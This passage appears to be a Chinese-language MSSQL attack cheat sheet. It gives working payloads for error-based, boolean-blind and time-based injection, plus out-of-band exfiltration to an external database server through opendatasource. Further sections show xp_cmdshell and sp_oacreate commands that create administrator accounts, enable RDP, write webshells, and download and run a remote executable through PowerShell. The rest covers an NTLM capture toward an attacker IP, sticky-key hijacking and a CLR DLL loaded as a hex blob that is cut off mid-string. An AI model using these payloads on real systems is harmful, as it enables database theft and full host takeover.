9.获取数据库的个数 
and 1=(select quotename(count(name)) from master.sys.databases)--+

10.一次性获取所有数据库库
and 1=(select quotename(name) from master.sys.databases for xml path(''))--+

11.获取所有的表名 
# 获取当前库第一个表
and 1=(select top 1 table_name from information_schema.tables)--+
# 获取当前库第二个表
and 1=(select top 1 table_name from information_schema.tables where table_name not in('emails'))--+
# 获取当前库第三个表
and 1=(select top 1 table_name from information_schema.tables where table_name not in('emails','uagents'))--+
# 也可通过更改top 参数获取表
and 1=(select top 1 table_name from information_schema.tables where table_name not in
(select top 5 table_name from information_schema.tables))--+
# quotename和for xml path('')一次性获取全部表
and 1=(select quotename(table_name) from information_schema.tables for xml path(''))--+
# quotename()的主要作用就是在存储过程中，给列名、表名等加个[]、’’等以保证sql语句能正常执行。

12.获取字段名
# 通过top 和 not in 获取字段
and 1=(select top 1 column_name from information_schema.columns where table_name='users')--+
and 1=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in ('id','username'))--+
# 通过quotename 和 for xml path('') 获取字段
and 1=(select quotename(column_name) from information_schema.columns where table_name='emails' for xml path(''))--+

13.获取表中数据
and 1=(select quotename(username) from users for xml path(''))--+
and 1=(select quotename(password) from users for xml path(''))--+
```

### 布尔盲注 

```sql
1. 判断注入点  
and 1=1 and 1=2 and '1'='1' and '1456'='1456'--+

2.猜解数据库个数
id=1 and (select count(*) from sys.databases)=7--+        # 存在7个数据库

3.猜解数据库名长度 
id=1 and len((select top 1 name from sys.databases))=6--+ # 第一个库名长度为6
id=1 and len(db_name())=4--+                              # 当前数据库名长度为4

4.猜解数据库名
id=1 and ascii(substring(db_name(),1,1))=115--+ # 截取库名第一个字符的ascii码为115——s
id=1 and ascii(substring(db_name(),2,1))=113--+ # 截取库名第二个字符的ascii码为113——q
# 截取第一个库名第一个字符的ascii码为109——m
id=1 and ascii(substring((select top 1 name from sys.databases),1,1))=109--+
# 截取第二个库名第一个字符的ascii码为105——i
id=1 and ascii(substring((select top 1 name from sys.databases where name not in ('master')),1,1))=105--+ 

5.猜解表名
# 截取当前库的第一个表的第一个字符的ascii码为101——e
id=1 and ascii(substring((select top 1 table_name from information_schema.tables),1,1))=101--+ 
# 截取当前库的第二个表的第一个字符的ascii码为117——u
id=1 and ascii(substring((select top 1 table_name from information_schema.tables where table_name not in ('emails')),1,1))=117--+

6.猜解字段名 
# 截取当前库的emails表的第一个字符的ascii码为105——i
id=1 and ascii(substring((select top 1 column_name from information_schema.columns where table_name='emails'),1,1))=105--+
#截取当前库的emails表的第二个字符的ascii码为100——d 
id=1 and ascii(substring((select top 1 column_name from information_schema.columns where table_name='emails'),2,1))=100--+ 

7.猜解表中数据
# username字段的数据第一个字符为D
id=1 and ascii(substring((select top 1 username from users),1,1))=68--+
```

### 时间盲注

```sql
1.判断是否存在注入
id=1 WAITFOR DELAY '0:0:5'--+

2.判断权限
# 如果是sysadmin权限，则延时5秒
id=1 if(select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'--+

3.查询当前数据库的长度和名字
# 二分法查询长度
id=1 if(len(db_name()))>40 WAITFOR DELAY '0:0:5'--+
# 查询数据库名字
# substring截取字符串的位置，用ascii转为数字进行二分法查询
id=1 if(ascii(substring(db_name(),1,1)))>50 WAITFOR DELAY '0:0:5'--+

4.查询数据库的版本 
id=1 if(ascii(substring((select @@version),1,1))=77 WAITFOR DELAY '0:0:5'--+ # ascii 77 = M

5.查询表个数,Sysobject 存储了所有表的信息，所有数据库的都放在一起
id=1 if((select count(*) from SysObjects where xtype='u')>5) WAITFOR DELAY '0:0:5'--+
# 当前数据库表的个数为6

6.查询第一个表的长度
# 查询第一个表
id=1 and select top 1 name from SysObjects where xtype='u' 
# 查询结果为1
(select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u')
# 利用and，进行判断，9为表长度的猜测
and len(name)=9
# 第一个表名长度为6
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u') and len(name)=9)=1) WAITFOR DELAY '0:0:5'--+
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u') and len(name)=6)=1) WAITFOR DELAY '0:0:10'--+

7.查询第一个表的表名
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u') and ascii(substring(name,1,1))>90)=1) WAITFOR DELAY '0:0:5'--+
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u') and ascii(substring(name,1,1))=101)=1) WAITFOR DELAY '0:0:5'--+

8.查询第二个表的长度
# 查询第一个表名，去除emails, emails为第一个表名
select top 1 name from SysObjects where xtype='u' and name not in ('emails')
# 同理，第三个表则 and name not in ('emails','uagents')
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u' and name not in ('emials')) and len(name)=6)<>0) WAITFOR DELAY '0:0:5'--+

9.查询第二个表的名字
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u' and name not in ('emails')) and ascii(substring(name,1,1)>100)!=1) WAITFOR DELAY '0:0:5'--+
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u' and name not in ('emails')) and ascii(substring(name,1,1)>100)!=0) WAITFOR DELAY '0:0:5'--+

10.查询第一个表中的字段
# and name not in ('')查询第二个字段的时候可以直接在其中，排除第一个字段名
id=1 if((select count(*) from syscolumns where name in (select top 1 name from syscolumns where id = object_id('emails') and name not in ('')) and ascii(substring(name,1,1))=1)！=0) WAITFOR DELAY '0:0:1'--+

11.查询字段类型 
id=1 if((select count(*) from information_schema.columns where data_type in(select top 1 data_type from information_schema.columns where table_name ='emails') and ascii(substring(data_type,1,1))=116)!=0) WAITFOR DELAY '0:0:5'--+

12.查询数据
# 查询所有数据库
SELECT Name FROM Master..SysDatabases ORDER BY Name
# 查询存在password字段的表名
SELECT top 1 sb.name FROM syscolumns s JOIN sysobjects sb ON s.id=sb.id WHERE s.name='password'
id=1 if((select count(*) from sysobjects where name in ((select name from sysobjects where name in (SELECT top 1 sb.name FROM syscolumns s JOIN sysobjects sb ON s.id=sb.id WHERE s.name='password') and ascii(substring(sysobjects.name,1,1))>1)))>0) waitfor delay '0:0:1'--
# 查询包含pass的字段名
SELECT top 1 name FROM SysColumns where name like '%pass%'
id=1 if((select count(*) from SysColumns where name in (SELECT top 1 name FROM SysColumns where name like '%pass%' and ascii(substring(name,1,1))>1))>0) waitfor delay '0:0:1'--
```

### 反弹注入

- 反弹注入条件相对苛刻一些，一是需要一台搭建了mssql数据库的vps服务器，二是需要开启堆叠注入。

- 反弹注入需要使用opendatasource函数。
  - OPENDATASOURCE(provider_name,init_string)
  - 使用opendatasource函数将当前数据库查询的结果发送到另一数据库服务器中。

- 基本流程

  - 连接vps的mssql数据库，新建表test，字段数与类型要与要查询的数据相同。

  ```sql
  CREATE TABLE test(name VARCHAR(255))
  ```

  - 获取数据库所有表，使用反弹注入将数据注入到表中，注意这里填写的是数据库对应的参数，最后通过空格隔开要查询的数据。

  ```sql
  # 查询sysobjects表
  ?id=1;insert into opendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select name from dbo.sysobjects where xtype='U' --+
  
  # 查询information_schema数据库
  ?id=1;insert into opendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select table_name from information_schema.tables--+ 
  
  # 查询information_schema数据库
  id=1;insert intoopendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select column_name from information_schema.columns where table_name='admin'--+
  
  # 查询syscolumns表
  id=1;insert intoopendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select name from dbo.syscolumns where id=1977058079--+
  ```


## MSSQL GetShell

### 扩展存储过程

#### 扩展存储简介

- 在MSSQL注入攻击过程中，最长利用的扩展存储如下：

| 扩展存储过程         | 说明                                                         |
| -------------------- | ------------------------------------------------------------ |
| xp_cmdshell          | 直接执行系统命令                                             |
| sp_OACreate()        | 直接执行系统命令                                             |
| sp_OAMethod()        | 直接执行系统命令                                             |
| xp_regread           | 进行注册表读取                                               |
| xp_regwrite          | 写入到注册表                                                 |
| xp_dirtree           | 进行列目录操作                                               |
| xp_ntsec_enumdomains | 查看domain信息                                               |
| xp_subdirs           | 通过xp_dirtree，xp_subdirs将在一个给定的文件夹中显示所有子文件夹 |

- `xp_cmdshell`详细使用方法：

`xp_cmdshell`默认在**mssql2000**中是开启的，在**mssql2005之后的版本中则默认禁止** 。如果用户拥有管理员**sysadmin** 权限则可以用` sp_configure`重新开启它

```sql
execute('sp_configure "show advanced options",1')  # 将该选项的值设置为1
execute('reconfigure')                             # 保存设置
execute('sp_configure "xp_cmdshell", 1')           # 将xp_cmdshell的值设置为1
execute('reconfigure')                             # 保存设置
execute('sp_configure')                            # 查看配置
execute('xp_cmdshell "whoami"')                    # 执行系统命令

exec sp_configure 'show advanced options',1;       # 将该选项的值设置为1
reconfigure;                                       # 保存设置
exec sp_configure 'xp_cmdshell',1;                 # 将xp_cmdshell的值设置为1
reconfigure;                                       # 保存设置
exec sp_configure;                                 # 查看配置
exec xp_cmdshell 'whoami';                         # 执行系统命令

# 可以执行系统权限之后,前提是获取的主机权限是administrators组里的或者system权限
exec xp_cmdshell 'net user Guest 123456'           # 给guest用户设置密码
exec xp_cmdshell 'net user Guest /active:yes'      # 激活guest用户
exec xp_cmdshell 'net localgroup administrators Guest /add'  # 将guest用户添加到administrators用户组
exec xp_cmdshell 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'  # 开启3389端口
```

#### 扩展存储Getshell

- 条件

1. 数据库是 **db_owner** 权限
2. 扩展存储必须开启，涉及到的的扩展存储过程: xp_cmdshell、 xp_dirtree、 xp_subdirs、 xp_regread

```sql
1.查看是否禁用扩展存储过程xp_cmdshell
id=0 union select 1,2,count(*) FROM master..sysobjects Where xtype = 'X' AND name = 'xp_cmdshell'--+
id=1 and 1=(select count(*) from master.sys.sysobjects where name='xp_cmdshell')--+

2.执行命令
id=1;exec master.sys.xp_cmdshell 'net user admin Admin@123 /add'--+
id=1;exec master.sys.xp_cmdshell 'net localgroup administrators admin /add'--+
```

### 差异备份GetShell

#### 差异备份简介

差异备份数据库得到webshell。在sqlserver里dbo和sa权限都有备份数据库权限，我们可以把数据库备份称asp文件，这样我们就可以通过mssqlserver的备份数据库功能生成一个网页小马。

#### 前提条件

- 具有db_owner权限
- 知道web目录的绝对路径

#### 寻找绝对路径的方法

- 报错信息
- 字典爆破
- 根据旁站目录进行推测
- 存储过程来搜索

在mssql中有两个存储过程可以帮我们来找绝对路径：`xp_cmdshell xp_dirtree`

先来看`xp_dirtree`直接举例子

```sql
execute master..xp_dirtree 'c:' --列出所有c:\文件、目录、子目录 
execute master..xp_dirtree 'c:',1 --只列c:\目录
execute master..xp_dirtree 'c:',1,1 --列c:\目录、文件
```

当实际利用的时候我们可以创建一个临时表把存储过程查询到的路径插入到临时表中

```sql
CREATE TABLE tmp (dir varchar(8000),num int,num1 int);
insert into tmp(dir,num,num1) execute master..xp_dirtree 'c:',1,1;
```

当利用`xp_cmdshell`时，其实就是调用系统命令来寻找文件

例如：

```sql
?id=1;CREATE TABLE cmdtmp (dir varchar(8000));
?id=1;insert into cmdtmp(dir) exec master..xp_cmdshell 'for /r c:\ %i in (1*.aspx) do @echo %i'
```

- 读配置文件

#### 差异备份的大概流程

```sql
1.完整备份一次(保存位置当然可以改)
backup database 库名 to disk = 'c:\ddd.bak';--+

**2.创建表并插入数据** 
create table [dbo].[dtest] ([cmd] [image]);--+
insert into dtest(cmd)values(0x3C25657865637574652872657175657374282261222929253E);--+

**3.进行差异备份** 
backup database 库名 to disk='c:\interub\wwwroot\shell.asp' WITH DIFFERENTIAL,FORMAT;--+

# 上面0x3C25657865637574652872657175657374282261222929253E即一句话木马的内容：<%execute(request("a"))%>
```

### xp_cmdshell GetShell

原理很简单，就是利用系统命令直接像目标网站写入木马

```sql
?id=1;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > c:\\WWW\\404.aspx' ;
```

这里要注意 `<`和`>`必须要转义，转义不是使用`\`而是使用`^`

### 文件下载getshell

当我们不知道一些网站绝对路径时，我们可以通过文件下载命令，加载远程的木马文件，或者说`.ps1`脚本，使目标机器成功上线`cs`或者`msf`

## MSSQL提权

### 存储过程说明

#### xp_dirtree

- 用于显示当前目录的子目录，有如下三个参数
  - directory：表示要查询的目录
  - depath：要显示子目录的深度，默认值是0，表示所有的子目录
  - file：第三个参数，布尔类型，指定是否显示子目录中的文件，默认值是0，标水不显示任何文件，只显示子目录


`xp_dirtree` 能够触发NTLM请求`xp_dirtree '\\<attacker_IP>\any\thing'`

#### xp_subdirs

用于得到给定的文件夹内的文件夹列表

```mssql
exec xp_subdirs 'c:\'
```


#### xp_fixeddrives

用于查看磁盘驱动器剩余的空间

```mssql
exec xp_fixeddrives
```


#### xp_availablemedia

用于获得当前所有的驱动器

```mssql
exec xp_availablemedia
```


#### xp_fileexist

用于判断文件是否存在

```mssql
exec xp_fileexist 'c:\windows\123.txt'
```


#### xp_create_subdir

用于创建子目录，参数是子目录的路径

```mssql
exec xp_create_subdir 'c:\users\admin\desktop\test'
```


#### xp_delete_file

可用于删除文件，但是不会删除任意类型的文件，系统限制它只能删除特定类型（备份文件和报表文件）

- 第一个参数是文件类型（File Type），有效值是0和1，0是指备份文件，1是指报表文件；
- 第二个参数是目录路径（Folder Path）， 目录中的文件会被删除，目录路径必须以“\”结尾；
- 第三个参数是文件的扩展名（File Extension），常用的扩展名是'BAK' 或'TRN'；
- 第四个参数是Date，早于该日期创建的文件将会被删除；
- 第五个参数是子目录（Subfolder），bool类型，0是指忽略子目录，1是指将会删除子目录中的文件；

#### xp_regenumkeys

可以查看指定的注册表

```mssql
exec xp_regenumkeys 'HKEY_CURRENT_USER','Control Panel\International'
```


#### xp_regdeletekey

删除指定的注册表键值

```mssql
EXEC xp_regdeletekey 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe';
```

#### xp_regwrite

**描述：**

修改注册表

**利用条件：**

- xpstar.dll

**修改注册表来劫持粘贴键(映像劫持)**

```mssql
(测试结果 Access is denied，没有权限)
exec master..xp_regwrite @rootkey='HKEY_LOCAL_MACHINE',@key='SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.EXE',@value_name='Debugger',@type='REG_SZ',@value='c:\windows\system32\cmd.exe'
```


#### sp_addextendedproc

可以用于恢复组件

```mssql
EXEC sp_addextendedproc xp_cmdshell ,@dllname ='xplog70.dll'
EXEC sp_addextendedproc xp_enumgroups ,@dllname ='xplog70.dll'
EXEC sp_addextendedproc xp_loginconfig ,@dllname ='xplog70.dll'
EXEC sp_addextendedproc xp_enumerrorlogs ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_getfiledetails ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc Sp_OACreate ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OADestroy ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OAGetErrorInfo ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OAGetProperty ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OAMethod ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OASetProperty ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OAStop ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc xp_regaddmultistring ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regdeletekey ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regdeletevalue ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regenumvalues ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regremovemultistring ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regwrite ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_dirtree ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regread ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_fixeddrives ,@dllname ='xpstar.dll'
```

#### sp_dropextendedproc

用于删除扩展存储过程

```mssql
exec sp_dropextendedproc 'xp_cmdshell'
```

#### xp_cmdshell

**描述：**

xp_cmdshell 是 Sql Server 中的一个组件，我们可以用它来执行系统命令。

**利用条件：**

- 拥有 DBA 权限, 在 2005 中 xp_cmdshell 的权限是 system，2008 中是 network。
- 依赖 xplog70.dll

```mssql
-- 判断当前是否为DBA权限，为1则可以提权
select is_srvrolemember('sysadmin');

-- 查看是否存在 xp_cmdshell
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- 查看能否使用 xp_cmdshell，从MSSQL2005版本之后默认关闭
select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell'

-- 关闭 xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 0;RECONFIGURE;

-- 开启 xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

-- 执行 xp_cmdshell
exec xp_cmdshell 'cmd /c whoami'

-- xp_cmdshell 调用cmd.exe用powershell 远程下载exe并执行
exec xp_cmdshell '"echo $client = New-Object System.Net.WebClient > %TEMP%\test.ps1 & echo $client.DownloadFile("http://example/test0.exe","%TEMP%\test.exe") >> %TEMP%\test.ps1 & powershell  -ExecutionPolicy Bypass  %temp%\test.ps1 & WMIC process call create "%TEMP%\test.exe""'
```

**无回显，也无法进行dnslog怎么办：**

通过临时表查看命令执行结果（在注入时，要能堆叠）

```mssql
CREATE TABLE tmpTable (tmp1 varchar(8000));
insert into tmpTable(tmp1) exec xp_cmdshell 'ipconfig'
select * from tmpTable
```

**如果 xp_cmdshell 被删除了:**

如果 xp_cmdshell 被删除了，需要重新恢复或自己上传 xplog70.dll 进行恢复

以mssql2012为例，默认路径为:

```mssql
C:\Program Files\Microsoft SQL Server\MSSQL12.MSSQLSERVER\MSSQL\Binn\xplog70.dll
```

```mssql
-- 判断存储扩展是否存在,返回结果为1就OK
Select count(*) from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell'

-- 恢复xp_cmdshell,返回结果为1就OK
Exec sp_addextendedproc 'xp_cmdshell','xplog70.dll';
select count(*) from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell'

-- 否则上传xplog70.dll
Exec master.dbo.sp_addextendedproc 'xp_cmdshell','D:\\xplog70.dll'
```

#### sp_oacreate

**描述：**

使用sp_oacreate的提权语句，主要是用来调用OLE对象（Object Linking and Embedding的缩写，VB中的OLE对象），利用OLE对象的run方法执行系统命令。

**利用条件：**

- 拥有DBA权限
- 依赖odsole70.dll

```mssql
-- 判断当前是否为DBA权限，为1则可以提权
select is_srvrolemember('sysadmin');

-- 判断SP_OACREATE状态,如果存在返回1
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'

-- 启用 sp_oacreate
exec sp_configure 'show advanced options',1;
reconfigure;
exec sp_configure 'Ole Automation Procedures', 1;
reconfigure;

-- wscript.shell组件执行系统命令
declare @ffffffff0x int,@exec int,@text int,@str varchar(8000)
exec sp_oacreate 'wscript.shell',@ffffffff0x output
exec sp_oamethod @ffffffff0x,'exec',@exec output,'C:\\Windows\\System32\\cmd.exe /c whoami'
exec sp_oamethod @exec, 'StdOut', @text out
exec sp_oamethod @text, 'readall', @str out
select @str;

-- 输出执行结果到指定文件
declare @ffffffff0x int
exec sp_oacreate 'wscript.shell',@ffffffff0x output
exec sp_oamethod @ffffffff0x,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\\www\\1.txt'

-- 利用com组件执行命令
declare @ffffffff0x int,@exec int,@text int,@str varchar(8000)
exec sp_oacreate '{72C24DD5-D70A-438B-8A42-98424B88AFB8}',@ffffffff0x output
exec sp_oamethod @ffffffff0x,'exec',@exec output,'C:\\Windows\\System32\\cmd.exe /c whoami'
exec sp_oamethod @exec, 'StdOut', @text out
exec sp_oamethod @text, 'readall', @str out
select @str;

-- 利用com组件写文件
DECLARE @ObjectToken INT;
EXEC Sp_OACreate '{00000566-0000-0010-8000-00AA006D2EA4}',@ObjectToken OUTPUT;
EXEC Sp_OASetProperty @ObjectToken, 'Type', 1;
EXEC sp_oamethod @ObjectToken, 'Open';
EXEC sp_oamethod @ObjectToken, 'Write', NULL, 0x66666666666666663078;
EXEC sp_oamethod @ObjectToken, 'SaveToFile', NULL,'ffffffff0x.txt',2;
EXEC sp_oamethod @ObjectToken, 'Close';
EXEC sp_OADestroy @ObjectToken;

-- 利用filesystemobject写vb脚本 （目录必须存在，否则也会显示成功，但是没有文件写入）
declare @o int, @f int, @t int, @ret int,@a int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o,'createtextfile', @f out, 'c:\\www\\ffffffff0x.vbs', 1
exec @ret = sp_oamethod @f, 'writeline', NULL, 'hahahahahahhahahah'declare @o int, @f int, @t int, @ret int,@a int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o,'createtextfile', @f out, 'c:\\www\\ffffffff0x.vbs', 1
exec @ret = sp_oamethod @f, 'writeline', NULL, 'hahahahahahhahahah(这里是文件写入的内容)'

-- 配合 wscript.shell 组件执行
DECLARE @s int EXEC sp_oacreate [wscript.shell], @s out
EXEC sp_oamethod @s,[run],NULL,[c:\\www\\ffffffff0x.vbs]

-- 复制具有不同名称和位置的 calc.exe 可执行文件 （测试未成功）
declare @ffffffff0x int;
exec sp_oacreate 'scripting.filesystemobject', @ffffffff0x out;
exec sp_oamethod @ffffffff0x,'copyfile',null,'c:\\windows\\system32\calc.exe','c:\\windows\\system32\calc_copy.exe';

-- 移动文件 （测试好像只有 利用写入的VB脚本才能创建）
declare @ffffffff0x int
exec sp_oacreate 'scripting.filesystemobject',@ffffffff0x out
exec sp_oamethod @ffffffff0x,'movefile',null,'c:\\www\\1.txt','c:\\www\\3.txt'

-- 替换粘滞键
declare @ffffffff0x int;
exec sp_oacreate 'scripting.filesystemobject', @ffffffff0x out;
exec sp_oamethod @ffffffff0x,'copyfile',null,'c:\\windows\\system32\calc.exe','c:\\windows\\system32\sethc.exe';

declare @ffffffff0x int;
exec sp_oacreate 'scripting.filesystemobject', @ffffffff0x out;
exec sp_oamethod @ffffffff0x,'copyfile',null,'c:\windows\system32\sethc.exe','c:\windows\system32\dllcache\sethc.exe'

-- 使用JavaScript创建账户，更改其密码并将新账号添加到管理员组 （测试未成功）
declare @ffffffff0x int
EXEC sp_OACreate 'ScriptControl',@ffffffff0x OUT
EXEC sp_OASetProperty @ffffffff0x, 'Language','JavaScript'
EXEC sp_OAMethod @ffffffff0x, 'Eval', NULL,'var o=new ActiveXObject("Shell.Users");z=o.create("testuser");z.changePassword("123456!@#","");z.setting("AccountType")=3;';

```

### SQL Server Agent Job 代理执行计划任务

**描述：**

SQL Server 代理是一项 Microsoft Windows 服务，它执行计划的管理任务，这些任务在 SQL Server 中称为作业。

**利用条件：**

- 拥有 DBA 权限
- 需要 sqlserver 代理 (sqlagent) 开启，Express 版本Sql Server 是无法启用的

```mssql
-- 开启 sqlagent 服务 (还是没有权限，很纳闷，sa账户登录 还没权限)
exec master.dbo.xp_servicecontrol 'start','SQLSERVERAGENT';

-- 利用任务计划命令执行（无回显,可以 dnslog）
-- 创建任务 test，这里test为任务名称，并执行命令，命令执行后的结果，将返回给文本文档out.txt

use msdb;
exec sp_delete_job null,'test'
exec sp_add_job 'test'
exec sp_add_jobstep null,'test',null,'1','cmdexec','cmd /c "whoami>c:/out.txt"'
exec sp_add_jobserver null,'test',@@servername
exec sp_start_job 'test';
```

### CLR提权

**描述：**

从 SQL Server 2005 (9.x) 开始，SQL Server 集成了用于 Microsoft Windows 的 .NET  Framework 的公共语言运行时 (CLR) 组件。 这意味着现在可以使用任何 .NET Framework 语言（包括 Microsoft Visual Basic .NET 和 Microsoft Visual  C#）来编写存储过程、触发器、用户定义类型、用户定义函数、用户定义聚合和流式表值函数。
 \- https://docs.microsoft.com/zh-cn/sql/relational-databases/clr-integration/common-language-runtime-clr-integration-programming-concepts?view=sql-server-ver15

CLR 方式可以利用 16 进制文件流方式导入 DLL 文件，不需要文件落地

- [MDUT 中的16进制的dll](https://github.com/SafeGroceryStore/MDUT/blob/main/MDAT-DEV/src/main/Plugins/Mssql/clr.txt)

dll的制作可以参考下面的文章

- https://xz.aliyun.com/t/10955#toc-12

**利用条件：**

拥有DBA权限

```mssql
-- 启用CLR,SQL Server 2017版本之前
sp_configure 'show advanced options',1;RECONFIGURE; -- 显示高级选项
sp_configure 'clr enabled',1;RECONFIGURE; -- 启用CLR
ALTER DATABASE master SET TRUSTWORTHY ON; -- 将存储.Net程序集的数据库配置为可信赖的

-- 启用CLR，SQL Server 2017版本及之后,引入了严格的安全性，可以选择根据提供的 SHA512 散列专门授予单个程序集的 UNSAFE 权限
sp_configure 'show advanced options',1;RECONFIGURE;
sp_configure 'clr enabled',1;RECONFIGURE;
sp_add_trusted_assembly @hash= <SHA512 of DLL>; -- 将某程序集的SHA512哈希值添加到可信程序集列表中

-- 配置 EXTERNAL ACCESS ASSEMBLY 权限, test 是我指定的数据库
EXEC sp_changedbowner 'sa'
ALTER DATABASE [test] SET trustworthy ON

-- 导入CLR插件
CREATE ASSEMBLY [mssql_CLR]
  AUTHORIZATION [dbo]
  FROM 0x4D5A90000300000004000000FFFF0000B800000000000000400000000000000000000000000000000000000000000000000000000000000000000000800000000E1FBA0E00B409CD21B8014CCD21546869732070726F6772616D2063616E6E6F742062652072756E20696E20444F53206D6F64652E0D0D0A2400000000000000504500004C010300660705620000000000000000E00022200B013000000E00000006000000000000522C0000002000000040000000000010002000000002000004000000000000000400000000000000008000000002000000000000030040850000100000100000000010000010000000000000100000000000000000000000002C00004F00000000400000A802000000000000000000000000000000000000006000000C000000C82A00001C0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000200000080000000000000000000000082000004800000000000000000000002E74657874000000580C000000200000000E000000020000000000000000000000000000200000602E72737263000000A8020000004000000004000000100000000000000000000000000000400000402E72656C6F6300000C0000000060000000020000001400000000000000000000000000004000004200000000000000000000000000000000342C00000000000048000000020005007C2200004C0800000100000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000CA00280600000A72010000706F0700000A00280600000A7243000070725300007002280800000A28020000066F0700000A002A001B300600BC0100000100001173040000060A00730900000A0B076F0A00000A026F0B00000A0003280C00000A16FE010D092C0F00076F0A00000A036F0D00000A0000076F0A00000A176F0E00000A00076F0A00000A176F0F00000A00076F0A00000A166F1000000A00076F0A00000A176F1100000A00076F0A00000A176F1200000A0006731300000A7D010000040706FE0605000006731400000A6F1500000A00140C00076F1600000A26076F1700000A00076F1800000A6F1900000A0C076F1A00000A0000DE18130400280600000A11046F1B00000A6F0700000A0000DE00076F1C00000A16FE01130511052C1D00280600000A067B010000046F1D00000A6F0700000A000038AA00000000731300000A130608280C00000A16FE01130711072C0B001106086F1E00000A2600067B010000046F1F00000A16FE03130811082C22001106725D0000706F1E00000A261106067B010000046F1D00000A6F1E00000A2600280600000A1C8D0E000001251602A2251703A225187275000070A22519076F1C00000A13091209282000000AA2251A72AD000070A2251B1106252D0426142B056F1D00000AA2282100000A6F0700000A0000067B010000046F1D00000A130A2B00110A2A011000000000970025BC0018080000012202282200000A002A4E027B01000004046F2300000A6F1E00000A262A00000042534A4201000100000000000C00000076342E302E33303331390000000005006C000000A8020000237E000014030000B403000023537472696E677300000000C8060000B4000000235553007C0700001000000023475549440000008C070000C000000023426C6F620000000000000002000001571502000902000000FA0133001600000100000014000000030000000100000005000000050000002300000005000000010000000100000003000000010000000000D60101000000000006007001BA0206009001BA0206004601A7020F00DA02000006003C03E4010A005A015A020E001503A7020600EB01E40106002C027A0306002B01BA020E00FA02A7020A0086035A020A0023015A020600C401E4010E000302A7020E00D200A7020E004102A70206001402360006002102360006002700E401000000002D00000000000100010001001000E9020000150001000100030110000100000015000100040006007003790050200000000096008D007D000100842000000000960099001A0002005C22000000008618A102060004005C22000000008618A102060004006522000000008300160082000400000001007F0000000100F200000002002B03000001003A020000020010030900A10201001100A10206001900A1020A003100A10206005100A102060061001A0110006900A4001500710035031A003900A10206003900F50132007900E50015007100A403370079001D031500790091033C007900C20041007900AE013C00790087023C00790055033C004900A10206008900A1024700390068004D0039004F0353003900FB000600390075025700990083005C003900430306004100B6005C003900A90060002900C2015C0049000F0164004900CB016000A100C2015C00710035036A002900A1020600590056005C0020002300BA002E000B0089002E00130092002E001B00B10063002B00BA0020000480000000000000000000000000000000004000000004000000000000000000000070005F000000000004000000000000000000000070004A00000000000400000000000000000000007000E40100000000030002000000003C3E635F5F446973706C6179436C617373315F30003C52756E436F6D6D616E643E625F5F3000496E743332003C4D6F64756C653E0053797374656D2E494F006D7373716C5F434C520053797374656D2E44617461006765745F44617461006D73636F726C6962006164645F4F757470757444617461526563656976656400636D640052656164546F456E640045786563436F6D6D616E640052756E436F6D6D616E640053656E64006765745F45786974436F6465006765745F4D657373616765007365745F57696E646F775374796C650050726F6365737357696E646F775374796C65007365745F46696C654E616D650066696C656E616D6500426567696E4F7574707574526561644C696E6500417070656E644C696